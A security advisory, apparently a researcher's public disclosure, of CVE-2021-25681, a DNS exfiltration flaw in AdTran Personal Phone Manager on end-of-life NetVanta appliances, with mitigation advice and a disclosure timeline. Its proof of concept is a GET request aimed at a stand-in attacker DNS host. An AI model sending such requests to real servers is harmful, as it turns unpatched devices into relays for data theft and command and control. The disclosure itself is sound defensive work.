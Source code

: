 # CVE-2021-25681 - AdTran Personal Phone Manager DNS Exfiltration 

--Summary--

The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS.

ADTRAN, Inc
https://adtran.com

--Affects--

- AdTran Personal Phone Manager
- Verified on v10.8.1
- **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

--Details--

The AdTran Personal Phone Manager software is vulnerable to an issue that allows for exfiltration of data over DNS. This could allow for exposed AdTran Personal Phone Manager web servers to be used as DNS redirectors to tunnel arbitrary data over DNS. This is achieved by simply making a GET request to the vulnerable server containing a reference to a DNS target that is collecting the tunneled data. This can lead to:

- Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based Command and Control
- Utilizing exposed AdTran Personal Phone Manager Services as a redirector for DNS based arbitrary data exfiltration


-- Proof of Concept --
To exploit the issue all that is necessary is a simple DNS request:

GET http://mydns.attack.com/ HTTP/1.1
Host: SOME ADTRAN HOST HERE
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

--Mitigation--
The server should be reconfigured to not perform arbitrary DNS lookups when the Host/Get requests do not match. Additionally scoping requests to only be allowed in the context of the application is ideal.

--Timeline--

- 1/21/2021: DNS Exfiltration vulnerability was discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
- 1/22/2021: Placeholder CVE-2021-25681 was assigned by MITRE.
- 1/29/2021: A response from AdTran's Product Security Team was received.
- 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
- 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
- 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
- 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
- 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
- 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.
- 4/17/2021: The researcher publishes the repository for full disclosure and notifies MITRE to update the CVE entry details.

Casey Erdmann - Offensive Security Consultant
